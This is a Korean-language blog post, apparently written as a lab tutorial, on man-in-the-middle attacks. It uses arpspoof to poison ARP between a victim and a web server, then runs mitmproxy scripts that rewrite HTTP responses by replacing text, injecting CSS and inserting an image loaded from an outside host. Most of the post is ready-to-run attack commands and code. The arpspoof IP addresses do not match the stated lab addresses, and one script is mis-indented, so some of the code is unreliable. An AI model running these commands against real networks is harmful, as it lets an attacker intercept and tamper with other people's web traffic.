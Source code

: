 ```yaml
---
layout: post
title:  "Change Response (MitmProxy)"
tags: mobile proxy
---
```



## 환경구성

- Kali linux - Attacker
    - 192.168.0.36
- Windows - Victim
    - 192.168.0.35
- BeeBox - Web Server
    - 192.168.0.37
- AP (IpTime)
    - 192.168.0.1

Kali에 arpspoof 설치

```bash
$ apt-get install dsniff
$ apt-get install fragrouter
```

## ARP Spoofing

Kali에서 Victim과 Web Server 사이에 MITM 공격 시도

```bash
$ arpspoof -i eth0 -t 192.168.126.1 192.168.126.131
```

## MITMProxy

Modify Response

응답 값 내 문자열을 바꿔줌

```python
from mitmproxy import http

def response(flow: http.HTTPFlow) -> None:
	keyword = "health on".encode('utf-8')
	m_keyword = "health off".encode('utf-8')
	flow.response.content = flow.response.content.replace(keyword, m_keyword)
```

응답 값 내 HTML 태그 수정

```python
from mitmproxy import http

def response(flow: http.HTTPFlow) -> None:
	reflector = b"<style>body {transform: scaleX(-1);}</style></head>"
	flow.response.content = flow.response.content.replace(b"</head>", reflector)
```

응답 값 내 이미지 수정

```python
from mitmproxy import http
	def response(flow: http.HTTPFlow) -> None:
	img_src = b"<img src="
	new_img_src = b"<img src=http://pi.hakhub.net/t/hacker_200.png><img width=\"0\" height=\"0\" src="
	flow.response.content = flow.response.content.replace(img_src, new_img_src)
```

MITMProxy 스크립트 실행

```bash
$ mitmdump -s modify.py -m transparent
```